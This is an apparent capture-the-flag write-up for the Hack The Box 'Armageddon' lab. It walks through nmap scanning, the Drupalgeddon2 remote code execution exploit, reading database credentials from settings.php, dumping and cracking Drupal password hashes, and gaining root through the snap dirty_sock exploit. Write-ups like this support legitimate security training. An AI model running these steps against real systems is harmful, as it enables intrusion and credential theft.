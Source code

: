 ## Armageddon

### Lab Details 

- Difficulty:Easy 
- Type: Drupal CMS, Web Exploit, mysql, snapd, snapcraf, Linux

#### Tasks

Q1: How many TCP ports are open on Armageddon?
 - `nmap -sT -T4 -vv -A -p- -oA nmap_armageddon 10.10.10.233`

Q2: What is the name of the content management system the website is using?
 - from the output of the nmap scan
 ```
 80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
 |_http-title: Welcome to  Armageddon |  Armageddon
 | http-robots.txt: 36 disallowed entries 
 | /includes/ /misc/ /modules/ /profiles/ /scripts/ 
 | /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
 | /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
 | /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
 | /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
 | /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
 | /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
 |_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
 |_http-generator: **Drupal 7** (http://drupal.org) 
 |_http-favicon: Unknown favicon MD5: 1487A9908F898326EBABFFFD2407920D
 | http-methods: 
 |_  Supported Methods: GET HEAD POST OPTIONS
 |_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16

 ```

Q3: What is the name given to the exploit that targets Drupal < 8.3.9 / < 8.4.6 / < 8.5.1?
 - use searchsploit to find more about the exploit 
 - `searchsploit drupal`
 ```
 Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution  | php/remote/44482.rb
 Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution  | php/webapps/44448.py
 ```  

Q4: What user is the webserver running as?
 - use msfconsole and module `unix/webapp/drupal_drupalgeddon2`
 - run the exploit and confirm with whoami

Q5: What is the password for the MySQL database used by the site?
 - according to post https://www.drupal.org/forum/support/post-installation/2009-01-14/mysql-password-location  - the location of MySQL database password is stored at /var/www/html/sites/default/settings.php
 ```
 $databases = array (
   'default' => 
   array (
     'default' => 
     array (
       'database' => 'drupal',
       'username' => 'drupaluser',
       'password' => 'CQHEy@9M*m23gBVj',
       'host' => 'localhost',
       'port' => '',
       'driver' => 'mysql',
       'prefix' => '',
     ),
   ),
 );
 ```


Q6: What is the name of the table in the Drupal database that holder usernames and password hashes?
 - according to post https://www.drupal.org/forum/support/post-installation/2006-03-23/where-does-drupal-store-a-users-password
 - users table stored username and password in name and pass column respectively
 - tried to use msfconsole to load a shell however the shell is non-interactive
 - tried to load different reverse shells unable to execute
 - tried https://github.com/dreadlocked/Drupalgeddon2 worked 
 - tried to connect directly to mysql using below command however no output
   `armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -h locahost` 
 - used below command to run command as drupaluser line by line to dump 
   ```
    armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "show databases
    armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal;show tables;
    armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e "use drupal;select * from users;
    ...
    1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt 
   ```


Q7: What is the brucetherealadmin's password?
 - there is algorithm for drupal encryption
 - `hashcat -m 7900 hash rockyou.txt`

Q8: What is the full path to the binary on this machine that brucetherealadmin can run as root?
 - /usr/bin/snap -> `sudo -l'

Q9: Submit the flag located in root's home directory.
 - attempted below
  1. checked gtfobin for privilege escalation
  2. run linpeas.sh found some CVEs 
  3. tried to compile a snapcraft project, required lxd dependence to be setup 
  4. search online found https://github.com/f4T1H21/dirty_sock
  5. transferred file and was able to gain a root shell

#### Lesson Learned
 - If unable to elevate shell or unable to move further backtrack and use another exploit or different exploit. 
